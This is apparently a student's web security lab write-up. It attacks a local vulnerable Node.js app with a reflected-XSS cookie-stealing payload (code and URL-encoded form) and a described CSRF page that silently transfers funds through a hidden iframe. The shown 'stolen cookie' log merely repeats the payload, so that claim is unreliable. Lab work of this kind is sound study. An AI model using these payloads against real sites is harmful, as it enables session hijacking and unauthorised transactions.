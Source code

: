 # 1. Alpha Exploit: Cookie Stealing

Due to the instructions given in the document, I found out that the vulnerability is located in the router.js file:

```javascript
router.get('/profile', asyncMiddleware(async (req, res, next) => {
  if(req.session.loggedIn == false) {
    render(req, res, next, 'login/form', 'Login', 'You must be logged in to use this feature!');
    return;
  };

  if(req.query.username != null) { // if visitor makes a search query
    const db = await dbPromise;
    const query = `SELECT * FROM Users WHERE username == "${req.query.username}";`;
    let result;
    try {
      result = await db.get(query);
    } catch(err) {
      result = false;
    }
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile', `${req.query.username} does not exist!`, req.session.account);
    }
  } else { // visitor did not make query, show them their own profile
    render(req, res, next, 'profile/view', 'View Profile', false, req.session.account);
  }
}));
```

To be exact in the scenario where the username that is searched does not exist, the code renders `profile/view` displaying the message that `"<username> does not exist!"`. At this very part we can exploit the cookie by sending a request to the `/profile` path with the queryparam `username` which is not present in the database. With a malicious request in a script, the cookie can be stolen.
In details, The script get the cookie and sends it to the server.

As demonstrated in the question, we already have the url ``` url http://localhost:3000/profile?username=```

In the next step the url is followed by the script that steals the cookie and sends it to the server in addition to hiding the message that indicates there is no such username.

``` javascript
<script>
document.querySelector('.error').style.visibility = 'hidden';

var cookieValue = document.cookie.includes('session=')
    ? document.cookie.split('session=')[1].split(';')[0]
    : '';

new Image().src = `http://localhost:3000/steal_cookie?cookie=${cookieValue}`;
</script>
```
after writing the script, I encoded the script with the help of a website ```url https://www.urlencoder.org/``` and received the url below:

``` url
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and then in the terminal of the IDE (server) there was a log of the cookie I stole:

```
%3Cscript%3E%0Adocument.querySelector%28%27.error%27%29.style.visibility%20%3D%20%27hidden%27%3B%0A%0Avar%20cookieValue%20%3D%20document.cookie.includes%28%27session%3D%27%29%20%0A%20%20%20%20%3F%20document.cookie.split%28%27session%3D%27%29%5B1%5D.split%28%27%3B%27%29%5B0%5D%20%0A%20%20%20%20%3A%20%27%27%3B%0A%0Anew%20Image%28%29.src%20%3D%20%60http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3Fcookie%3D%24%7BcookieValue%7D%60%3B%0A%3C%2Fscript%3E%0A
```

and confirmed that the cookie theft was successful!

# 2. Bravo Exploit: Cross-site request forgery (CSRF)

For the first step we need to alter tha changes in the browser's setting. In the privacy and security tab in firefox browser,we need to set the browser privacy to custom and enable cross-site tracking cookies.

followed by that there is the `b.html` file to fill.

There are 3 parts to the code:

1. The script in <head>

The JavaScript in the <head> defines and handles the malicious behavior of the page.
The `document.addEventListener("DOMContentLoaded", ...)` ensures the code runs only after the HTML document has fully loaded, and it guarantees that all elements like the form and iframe are accessible in the DOM before the script executes.
The constant `hijackUrl` stores the URL where the browser will redirect the user after the form submission process completes.
The variable let `isSubmitted = false` tracks whether the form has been submitted. It prevents accidental or repeated redirection before the form is submitted.
The `handleTransferAndRedirect()`` function is the core function that selects the form `(document.forms['transfer_form'])` and iframe `(document.getElementById("transformiFrame"))`.It submits the form using `form.submit()` to send data to the target endpoint. Additionally, it sets `isSubmitted` to true to indicate that the form has been sent.

This function adds an event listener to the iframe's load event:
When the iframe finishes loading, the browser checks if the form submission was completed `(isSubmitted === true)`.
If true, the browser redirects the user to the `hijackUrl`.

For the final step of this part, the call to `handleTransferAndRedirect()` executes the function immediately after defining it to initiate the form submission and set up the iframe listener.

2. The form in <body>
The form, identified by the `id="transfer_form"`, is configured to silently submit data to a specified endpoint (`http://localhost:3000/post_transfer`) using the `POST` method, with the results directed to a hidden iframe (`target="transformiFrame"`).
It includes two hidden inputs: `destination_username`, preset to `"attacker"`, and `quantity`, set to `10`, ensuring the transfer operation remains invisible to the user. These attributes collectively enable the seamless execution of the attack without the user’s knowledge.

3. The iFrame in <body>
The hidden iframe, identified by `id="transformiFrame"`, serves as an invisible intermediary to handle the form's response without user awareness. Its `name="transformiFrame"` attribute matches the form's `target` attribute, ensuring the form's submission results are loaded into the iframe. Once the form submission is complete and the iframe finishes loading the response, a `load` event is triggered in the JavaScript, redirecting the user to the predefined `hijackUrl`. This setup enables a seamless, covert operation.
I originally wanted to use the Promise function to have the functions executing in row but for some reason it did not work. Instead, I used the target attribute for form.


here are the links I used for this question:
``` url https://www.w3schools.com/tags/att_form_target.asp```
```url https://stackoverflow.com/questions/37146241/promise-not-working-properly```

# 3. Gamma Exploit:

